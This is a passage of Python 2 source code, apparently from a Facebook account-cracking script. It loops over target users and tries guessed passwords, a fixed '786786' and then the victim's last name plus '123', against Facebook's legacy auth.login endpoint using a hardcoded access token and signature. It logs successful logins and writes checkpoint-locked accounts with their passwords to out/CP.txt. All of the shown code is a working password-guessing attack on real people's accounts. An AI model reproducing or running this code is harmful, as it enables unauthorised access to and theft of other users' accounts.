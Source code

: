 											pass5 = '786786'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass5 + ' 👽 ' + b['name']

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass5 + ' 👽 ' + b['name']

													cek = open("out/CP.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['last_name'] + '123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass6 + ' 👽 ' + b['name']

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass6 + ' 👽 ' + b['name']

															cek = open("out/CP.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:
